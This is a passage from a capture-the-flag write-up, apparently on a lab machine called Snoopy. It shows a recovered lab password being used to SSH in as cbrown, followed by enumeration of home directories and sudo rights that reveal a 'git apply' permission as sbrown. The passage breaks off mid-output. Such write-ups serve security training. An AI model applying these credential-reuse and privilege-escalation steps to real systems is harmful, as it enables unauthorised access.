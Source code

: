 
The third to last line has the username cbrown and the password
“sn00pedcr3dential!!!”.

#### Shell as cbrown

With those creds, I can SSH into Snoopy as cbrown:

    
    
    oxdf@hacky$ sshpass -p 'sn00pedcr3dential!!!' ssh cbrown@snoopy.htb
    Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
    ...[snip]...
    cbrown@snoopy:~$
    

## Shell as sbrown

### Enumeration

#### Home Dirs

cbrown’s home directory is empty:

    
    
    cbrown@snoopy:~$ ls -la
    total 28
    drwxr-x--- 4 cbrown cbrown 4096 Apr 25 11:47 .
    drwxr-xr-x 4 root   root   4096 Mar 19 04:54 ..
    lrwxrwxrwx 1 root   root      9 Mar 26 00:52 .bash_history -> /dev/null
    -rw-r--r-- 1 cbrown cbrown  220 Jan  6  2022 .bash_logout
    -rw-r--r-- 1 cbrown cbrown 3771 Jan  6  2022 .bashrc
    drwx------ 2 cbrown cbrown 4096 Feb 24 06:04 .cache
    -rw-r--r-- 1 cbrown cbrown  807 Jan  6  2022 .profile
    drwx------ 2 cbrown cbrown 4096 Feb 24 06:04 .ssh
    lrwxrwxrwx 1 root   root      9 Mar 26 00:52 .viminfo -> /dev/null
    

There’s one other home directory, sbrown, and cbrown can’t access it:

    
    
    cbrown@snoopy:/home$ ls
    cbrown  sbrown
    cbrown@snoopy:/home$ ls sbrown/
    ls: cannot open directory 'sbrown/': Permission denied
    

#### Git

cbrown can run `git apply -v` on a single argument as sbrown:

    
    
    cbrown@snoopy:~$ sudo -l
    [sudo] password for cbrown: 
    Matching Defaults entries for cbrown on snoopy:
        env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
        XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
        mail_badpass
    